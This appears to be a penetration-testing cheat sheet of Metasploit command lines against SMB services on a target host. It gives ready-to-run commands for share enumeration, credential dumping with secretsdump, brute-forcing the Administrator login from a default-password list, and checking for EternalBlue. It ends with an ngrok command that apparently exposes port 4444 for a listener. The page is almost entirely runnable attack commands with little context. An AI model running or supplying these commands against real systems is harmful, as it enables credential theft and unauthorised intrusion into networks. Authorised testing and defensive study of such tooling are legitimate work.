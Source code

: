 ```bash
msfconsole -qx "
    use auxiliary/scanner/smb/smb_enumshares;
    set RHOSTS $TARGET;
    run;
    exit"
```

{% hint style="info" %}
Credential Dumps
{% endhint %}

```bash
msfconsole -qx "
    use auxiliary/scanner/smb/impacket/secretsdump;
    set RHOSTS $TARGET;
    run;
    exit"
```

{% hint style="info" %}
Credential Brute Force
{% endhint %}

```bash
msfconsole -qx "
    use auxiliary/scanner/smb/smb_login;
    set RHOSTS $TARGET;
    set SMBUser Administrator;
    set PASS_FILE /usr/share/seclists/Passwords/Default-Credentials/default-passwords.txt;
    set STOP_ON_SUCCESS true;
    set ANONYMOUS_LOGIN true;
    set THREADS 10;
    run;
    exit"
```

{% hint style="info" %}
Detect EternalBlue
{% endhint %}

```bash
msfconsole -qx "
    use auxiliary/scanner/smb/smb_ms17_010;
    set RHOSTS $TARGET;
    run;
    exit"
```

{% hint style="info" %}
Start Ngrok
{% endhint %}

```bash
ngrok http 4444 >/dev/null 2>&1 &
```
